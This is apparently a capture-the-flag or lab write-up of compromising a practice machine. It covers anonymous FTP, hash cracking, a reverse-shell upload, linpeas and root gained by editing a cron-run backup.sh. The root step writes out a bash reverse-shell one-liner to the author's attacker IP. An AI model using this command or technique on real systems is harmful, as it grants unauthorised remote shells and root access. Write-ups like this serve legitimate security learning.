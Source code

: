 First I run nmap:

![](attachment/b4da621cb3ede4c57c9b431298c4b587.png)

and I found a note.txt file on the ftp server with anonymous login

  

then I searched for subdirectories

![](attachment/f7053b98125d0806d99e92a92f8e916d.png)

I found two login pages:

![](attachment/2ce1d91eeb4d6e5ad4e89e0dd6533a6a.png)

![](attachment/f3f726593c59336d7ef838ec94399b58.png)

then I got back to get the note.txt file

![](attachment/3877a603030a59babe48409d3ea2a48b.png)

and found some users with there passwords

![](attachment/485934ab65d8937ca0f8f4ecdd41619e.png)

and I cracked the hash:

![](attachment/1dbeb369a6cc4fcdfaae0cacf2eadea7.png)

then I logged in with the credential in the note.txt file with **reg** number and **student** password

and when I logged in it asked to change the password so I changed it to **syudent1**

then I found this page and it has upload file option so I uploaded a reverse shell

![](attachment/d55daecadf380823d601db0eb0ba432e.png)

then I right click on the student photo to open the directory of the photo

![](attachment/ae6f7efbfab52815b6801018db039add.png)

then I got linpeas on the machine and run it

![](attachment/b6b082b82abcd0a7923732f6bcea1f69.png)

and found some info

![](attachment/c880122413584dbeb7a1dae51196c223.png)

then I tried to connect with these credentials via ssh

and I got a shell:

![](attachment/2e9b889425e70294e53a0e3f9b2fda21.png)

and I found a vulnerability in /home/grimmie/backup.sh

![](attachment/85c295c2b289e40ed00ddda75aa7d18c.png)

then I searched on google for bash reverse shell one liner and I found:

![](attachment/580bd62d2f59313fed82a2e9f1b9bbfb.png)

then I modified the [backup.sh](http://backup.sh) file with this line

```Lua
bash -i >& /dev/tcp/192.168.133.139/7777 0>&1
```

![](attachment/57a619cebd3b0ca0db014a6b0bfa9c1f.png)

and I was set a netcat listener on my attacker machine waiting for the jop to execute and I got root!!!!!

![](attachment/8097389c0ed33abb08bf28253f03f540.png)